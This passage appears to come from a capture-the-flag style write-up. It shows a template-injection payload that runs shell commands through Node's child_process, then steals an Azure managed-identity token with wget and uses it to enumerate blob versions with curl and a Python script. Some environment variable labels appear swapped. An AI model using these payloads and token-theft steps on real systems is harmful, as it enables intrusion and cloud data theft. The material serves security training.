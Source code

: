 ```json ln:false
{
  "amount": 1313,
  "recipient": "1d",
  "message": "<%= (global.constructor.constructor('return process')()).mainModule.require('child_process').execSync('command').toString() %>"
}
```

Environment enumeration revealed:

- MSI endpoint: `http://localhost:12356/msi/token` via env **AZURE_CLIENT_ID**
- Client ID: `5557107a-b00b-4a7c-84df-3670932d1b39` via env **IDENTITY_HEADER**

Since the Container App has Blob Storage access, requested an access token for `https://storage.azure.com/`

```bash ln:false
wget --header="X-IDENTITY-HEADER: $IDENTITY_HEADER" \
        "$IDENTITY_ENDPOINT?resource=https://storage.azure.com&api-version=2019-08-01&client_id=$AZURE_CLIENT_ID" \
        -O- 2>/dev/null
```

Enumerated blob storage with versions:

```bash ln:false
curl -H "Authorization: Bearer $TOKEN" -H "x-ms-version: 2021-08-06" \
  "https://qrwebsax3zov6py.blob.core.windows.net/internal?restype=container&comp=list&include=versions"
```

or use this script

```python ln:false wrap folded title:blob.py
#!/usr/bin/env python3
import xml.etree.ElementTree as ET

import requests

ACCESS_TOKEN = "..."
STORAGE_ACCOUNT = "qrwebsax3zov6py"
CONTAINER_NAME = "internal"

url = f"https://{STORAGE_ACCOUNT}.blob.core.windows.net/{CONTAINER_NAME}"
params = {"restype": "container", "comp": "list", "include": "versions,metadata"}
headers = {"Authorization": f"Bearer {ACCESS_TOKEN}", "x-ms-version": "2021-08-06"}

response = requests.get(url, params=params, headers=headers)

if response.status_code == 200:
    root = ET.fromstring(response.text)
    ns = {"": "http://schemas.microsoft.com/ado/2007/08/dataservices"}

    for blob in root.findall(".//Blob"):
        name = blob.find("Name").text
        version_id = blob.find("VersionId")
        is_current = blob.find("IsCurrentVersion")

        print(f"Blob: {name}")
        if version_id is not None:
            print(f"  Version: {version_id.text}")
        if is_current is not None:
            print(f"  Current: {is_current.text}")
        print()
else:
    print(f"Error: {response.status_code}")
    print(response.text)
```